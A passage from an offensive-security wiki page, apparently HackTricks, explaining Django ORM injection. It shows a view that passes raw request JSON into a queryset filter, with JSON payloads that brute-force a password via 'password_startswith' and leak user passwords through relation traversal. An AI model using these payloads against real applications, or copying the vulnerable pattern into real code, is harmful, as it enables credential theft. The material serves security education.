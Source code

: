 # ORM Injection

{{#include ../banners/hacktricks-training.md}}

## Django ORM (Python)

In [**this post**](https://www.elttam.com/blog/plormbing-your-django-orm/) is explained how it's possible to make a Django ORM vulnerable by using for example a code like:

<pre class="language-python"><code class="lang-python">class ArticleView(APIView):
    """
        Some basic API view that users send requests to for
        searching for articles
    """
    def post(self, request: Request, format=None):
        try:
<strong>            articles = Article.objects.filter(**request.data)
</strong>            serializer = ArticleSerializer(articles, many=True)
        except Exception as e:
            return Response([])
        return Response(serializer.data)
</code></pre>

Note how all the request.data (which will be a json) is directly passed to **filter objects from the database**. An attacker could send unexpected filters in order to leak more data than expected from it.

Examples:

- **Login:** In a simple login try to leak the passwords of the users registered inside of it.

```json
{
  "username": "admin",
  "password_startswith": "a"
}
```

> [!CAUTION]
> It's possible to brute-force the password until it's leaked.

- **Relational filtering**: It's possible to traverse relations in order to leak information from columns that weren't even expected to be used in the operation. For example, if it's possible to leak articles created by a user withe these relations: Article(`created_by`) -\[1..1]-> Author (`user`) -\[1..1]-> User(`password`).

```json
{
  "created_by__user__password__contains": "pass"
}
```

> [!CAUTION]
> It's possible to find the password of all the users that have created an article

